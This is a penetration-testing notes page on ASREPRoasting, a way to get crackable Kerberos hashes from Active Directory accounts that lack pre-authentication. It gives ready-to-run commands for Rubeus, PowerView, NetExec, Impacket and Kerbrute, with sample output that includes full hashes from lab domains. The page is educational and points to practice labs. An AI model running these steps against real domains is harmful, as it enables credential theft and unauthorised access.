

# ASREPRoasting

## Concept&#x20;

**ASREPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed in order to obtain an **initial pair of domain credentials**. If an account has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled (Figure 1), then everyone can request from the Domain Controller (DC) to authenticate as that account and receive an **Authentication Service - Response (AS-REP)**.&#x20;

<figure><figcaption><p>Figure 1: Do not require Kerberos preauthentication setting.</p></figcaption></figure>


The AS-REP contains the **Ticket Granting Ticket (TGT)**  (Figure 2) which is encypted with the account's password hash which, depending on its strength, can be potentially cracked.


The TGT hash can be cracked with Hashcat's  **18200** mode.


<figure><figcaption><p>Figure 2: The Kerberos authentication process. Image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>.</p></figcaption></figure>


A great article analyzing how Kerberos work in detail.


## Tools

### Windows <a href="#windows" id="windows"></a>

Users with their User Account Control (UAC) value set to `DONT_REQ_PREAUTH` can be enumerated with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) or built-in tools, such as the PowerShell [AD module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps).&#x20;

```powershell
# enumerating for DONT_REQ_PREAUTH with PowerView
> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
 
samaccountname     : mmorgan
userprincipalname  : mmorgan@inlanefreight.local
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
```

The [Rubeus](https://github.com/GhostPack/Rubeus) tool can then be leveraged to retrieve the `AS-REP` from the account.


```powershell
# retrieving AS-REP in hashcat format
> .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
 
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/
 
  v2.0.2
 
[*] Action: AS-REP roasting
 
[*] Target User            : mmorgan
[*] Target Domain          : INLANEFREIGHT.LOCAL
 
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304)(samAccountName=mmorgan))'
[*] SamAccountName         : mmorgan
[*] DistinguishedName      : CN=Matthew Morgan,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
[*] Using domain controller: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL (172.16.5.5)
[*] Building AS-REQ (w/o preauth) for: 'INLANEFREIGHT.LOCAL\mmorgan'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:
     $krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:D18650F4F4E0537E0188A6897A478C55$0978822DEC13046712DB7DC03F6C4DE059A946485451AAE98BB93DFF8E3E64F3AA5614160F21A029C2B9437CB16E5E9DA4A2870FEC0596B09BADA989D1F8057262EA40840E8D0F20313B4E9A40FA5E4F987FF404313227A7BFFAE748E07201369D48ABB4727DFE1A9F09D50D7EE3AA5C13E4433E0F9217533EE0E74B02EB8907E13A208340728F794ED5103CB3E5C7915BF2F449AFDA41988FF48A356BF2BE680A25931A8746A99AD3E757BFE097B852F72CEAE1B74720C011CFF7EC94CBB6456982F14DA17213B3B27DFA1AD4C7B5C7120DB0D70763549E5144F1F5EE2AC71DDFC4DCA9D25D39737DC83B6BC60E0A0054FC0FD2B2B48B25C6CA
<SNIP>
```


### Linux <a href="#linux" id="linux"></a>

[NetExec](https://github.com/Pennyw0rth/NetExec)'s LDAP protocol along with the [`--asreproast`](https://www.netexec.wiki/ldap-protocol/asreproast) option can be used to perform the attack.&#x20;

```bash
# enumerating ASREPRoastable users with NetExec
$ nxc ldap 10.10.10.161 -u users.lst -p '' --asreproast asreproast.lst
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    445    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:a89<REDACTED>8fa
```

Impacket's [Get-NPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) can also hunt for ASREPRoastable accounts.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># enumerating ASREPRoastable users with Impacket
</strong>$ GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation
 
[-] User sbrown@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jjones@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tjohnson@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jwilson@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bdavis@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User njohnson@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User asanchez@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User dlewis@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ccruz@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$mmorgan@inlanefreight.local@INLANEFREIGHT.LOCAL:47e0d517f2a5815da8345dd9247a0e3d$b62d45bc3c0f4c306402a205ebdbbc623d77ad016e657337630c70f651451400329545fb634c9d329ed024ef145bdc2afd4af498b2f0092766effe6ae12b3c3beac28e6ded0b542e85d3fe52467945d98a722cb52e2b37325a53829ecf127d10ee98f8a583d7912e6ae3c702b946b65153bac16c97b7f8f2d4c2811b7feba92d8bd99cdeacc8114289573ef225f7c2913647db68aafc43a1c98aa032c123b2c9db06d49229c9de94b4b476733a5f3dc5cc1bd7a9a34c18948edf8c9c124c52a36b71d2b1ed40e081abbfee564da3a0ebc734781fdae75d3882f3d1d68afdb2ccb135028d70d1aa3c0883165b3321e7a1c5c8d7c215f12da8bba9
[-] User rramirez@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jwallace@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jsantiago@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
 
&#x3C;SNIP>
</code></pre>

[Kerbrute](https://github.com/ropnop/kerbrute)'s user enumeration option automatically retrieves the `AS-REP` for ASREPRoast users.


```bash
# retrieving the AS-REP
$ kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
 
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        
 
Version: dev (9cfb81e) - 04/01/22 - Ronnie Flathers @ropnop
 
2022/04/01 13:14:17 >  Using KDC(s):
2022/04/01 13:14:17 >  	172.16.5.5:88
 
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 sbrown@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 jjones@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 tjohnson@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 jwilson@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 bdavis@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 njohnson@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 asanchez@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 dlewis@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:	 ccruz@inlanefreight.local
2022/04/01 13:14:17 >  [+] mmorgan has no pre auth required. Dumping hash to crack offline:
$krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:400d306dda575be3d429aad39ec68a33$8698ee566cde591a7ddd1782db6f7ed8531e266befed4856b9fcbbdda83a0c9c5ae4217b9a43d322ef35a6a22ab4cbc86e55a1fa122a9f5cb22596084d6198454f1df2662cb00f513d8dc3b8e462b51e8431435b92c87d200da7065157a6b24ec5bc0090e7cf778ae036c6781cc7b94492e031a9c076067afc434aa98e831e6b3bff26f52498279a833b04170b7a4e7583a71299965c48a918e5d72b5c4e9b2ccb9cf7d793ef322047127f01fd32bf6e3bb5053ce9a4bf82c53716b1cee8f2855ed69c3b92098b255cc1c5cad5cd1a09303d83e60e3a03abee0a1bb5152192f3134de1c0b73246b00f8ef06c792626fd2be6ca7af52ac4453e6a
 
<SNIP>
```


## Practice

* [Forest (Easy)](../../../boxes/easy/forest.md)
* [Sauna (Easy)](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/VQuTz1o4xYFE8N6tz9Vv/)
* [Blackfield (Hard)](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/FqURPjUnKKhebI962QD8/active-directory/easy/blackfield)
